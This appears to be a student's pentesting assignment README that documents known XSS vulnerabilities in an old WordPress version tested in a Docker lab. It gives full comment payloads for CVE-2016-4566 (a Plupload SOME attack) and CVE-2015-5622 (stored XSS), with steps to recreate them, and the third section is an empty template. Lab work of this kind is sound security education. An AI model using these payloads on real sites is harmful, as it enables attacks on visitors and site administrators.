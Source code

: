 # Project 7 - WordPress Pentesting

> Time spent: 5+ hours spent in total

> Objective: Find, analyze, recreate, and document **three to five vulnerabilities** affecting an old version of WordPress

## Test Environment

Created virtual environment in Docker.
  - [ ] GIF Walkthrough: 
		<img src="docker-wpVSkali.gif" alt="docker-wpVSkali Walkthrough">
		
## Pentesting Report

### 1. WordPress <= 4.5.1 - Pupload Same Origin Method Execution (SOME) - CVE-2016-4566
  - [ ] Summary: 
    - Vulnerability types: Cross-Site Scripting (XSS)
    - Tested in version: 4.1
    - Fixed in version: 4.1.11 
  - [ ] GIF Walkthrough: 
		<img src="SOMExss.gif" alt="CVE-2016-4566 Walkthrough">
		
  - [ ] Steps to recreate: 
  
	1. As a logged in user, leaving a reply/comment to a post using the payload:
			
	2.		
			
		<button onclick="fire()">Click</button>
		<script>
		function fire() {
		open('javascript:setTimeout("location=\'http://example.com/wp-includes/js/plupload/plupload.flash.swf?target%g=opener.document.body.firstElementChild.nextElementSibling.nextElementSibling.nextElementSibling.firstElementChild.click&uid%g=hello&\'", 2000)');
		setTimeout('location="http://example.com/wp-admin/plugin-install.php?tab=plugin-information&plugin=wp-super-cache&TB_iframe=true&width=600&height=550"')
				}
		</script>	
			
	3. After this comment posts sucessfully, any user that comes across the post will see a clickable button within the comment. If that user clicks the button, the XSS attack will execute and attempt to download a malicious payload from the attack. 
			
	4. In the gif walkthrough, my browser extentions sucessfully blocks the attack from downloading the file, but a user without the proper safeguards would be prompted to download a file. 
			
  - [ ] References:
    - [Link 1: wpscan](https://wpscan.com/vulnerability/a82a6c6f-1787-4adc-84dd-3151f1edfd06)
	- [Link 2: cve.mitre](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-4566)
	- [Link 3: wordpress.org](https://wordpress.org/news/2016/05/wordpress-4-5-2/)
	- [Link 4: github/wordpress](https://github.com/WordPress/WordPress/commit/c33e975f46a18f5ad611cf7e7c24398948cecef8)
	- [Link 5: gist.github](https://gist.github.com/cure53/09a81530a44f6b8173f545accc9ed07e)
### 2. WordPress <= 4.2.2 - Authenticated Stored Cross-Site Scripting (XSS)
  - [ ] Summary: 
    - Vulnerability types: XSS
    - Tested in version: 4.1
    - Fixed in version: 4.1.6
  - [ ] GIF Walkthrough: 
		<img src="AuthStoredXSS.gif" alt="Authenticated Stored XSS Walkthrough">
  - [ ] Steps to recreate: 
	
	1. As a logged in user, leaving a reply/comment to a post using the payload:
			
	2.		
			
		<a href='/wp-admin/' title="XSS" style="position:absolute;top:0;left:0;width:100%;height:100%;display:block;" onmouseover=alert(2)//'Hello World</a>	
			
	3. After this comment posts sucessfully, any user that comes to the page and mouses over the area will see an alert box demonstrating the xss attack. The alert box will keep popping up everytime the area is hover overed with the mouse cursor. 
  
  - [ ] References:
    - [Link 1: wpscan](https://wpscan.com/vulnerability/0f027d7d-674b-4a63-9603-25ea68069c1d)
	- [Link 2: cve.mitre - 2015-5622](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-5622)
	- [Link 3: cve.mitre - 2015-5623](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-5623)
	- [Link 4: wordpress](https://wordpress.org/news/2015/07/wordpress-4-2-3/)
	- [Link 5: twitter](https://twitter.com/klikkioy/status/624264122570526720)
	- [Link 6: klikki](https://klikki.fi/adv/wordpress3.html)
### 3. (Required) Vulnerability Name or ID
  - [ ] Summary: 
    - Vulnerability types:
    - Tested in version:
    - Fixed in version: 
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)


## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)
- [wpVSkali](https://github.com/0xrutvij/wpVSkali)

GIFs created with [ScreenToGif](https://www.screentogif.com).

## Notes

- Other notes:

## License

Licensed under the Apache License, Version 2.0 (the "License");
you may not use this file except in compliance with the License.
You may obtain a copy of the License at

http://www.apache.org/licenses/LICENSE-2.0

Unless required by applicable law or agreed to in writing, software
distributed under the License is distributed on an "AS IS" BASIS,
WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
See the License for the specific language governing permissions and
limitations under the License.

